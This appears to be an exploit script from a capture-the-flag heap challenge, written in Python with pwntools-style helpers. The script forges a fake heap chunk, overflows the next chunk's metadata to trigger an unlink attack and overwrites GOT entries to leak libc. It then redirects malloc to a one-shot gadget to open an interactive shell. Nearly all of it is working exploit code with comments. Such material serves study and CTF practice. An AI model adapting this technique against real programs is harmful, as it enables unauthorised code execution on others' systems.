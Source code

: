 ```
# 0x602160 contains the specific heap chunk ptr to the chunk which will hold our fake chunk in it
ptr = 0x602160

# Allocate several different chunks so we can get adjacent chunks
add(0xa0)
add(0xa0)
add(0xa0)
add(0xa0)# The chunk which will store our fake chunk
add(0xa0)
add(0xa0)

# Construct the fake chunk

fakeChunk = ""
fakeChunk += p64(0x0)   # Previous Size
fakeChunk += p64(0xa0)    # Size
fakeChunk += p64(ptr - 0x8*3) # FD ptr
fakeChunk += p64(ptr - 0x8*2) # BK ptr
fakeChunk += p64(0x0)*((0xa0 - 0x20)/8) # FD Next Size / filler to the next chunks heap metadata

# These 16 bytes will overflow into the next chunks heap metadata

fakeChunk += p64(0xa0)  # Previous Size
fakeChunk += p64(0xb0)  # Size

# Send the data for the fake chunk and the heap metadata overflow
scan(4, 0xb0, fakeChunk)

# Trigger the unlink attack by freeing the chunk with the overflowed heap metadata
remove(5)

# Write the got addresses of strlen and malloc to 0x602148 (array of ptrs of heap address)
scan(4, 0x10, p64(elf.got["strlen"]) + p64(elf.got["malloc"]))

# Overwrite got entry for strlen with plt address of puts
scan(1, 0x8, p64(elf.symbols["puts"]))

# Leak the libc address of malloc, calculate libc base and oneshot gadget address
mallocLibc = view(2)
libcBase = mallocLibc - libc.symbols["malloc"]
oneShot = libcBase + 0xf02a4

print "libc base: " + hex(libcBase)
print "oneshot gadget: " + hex(oneShot)

# Overwrite got entry for malloc with oneshot gadget
scan(2, 0x8, p64(oneShot))

# Call malloc
target.send("1\n1\n")

# Enjoy your shell!
target.interactive()
```
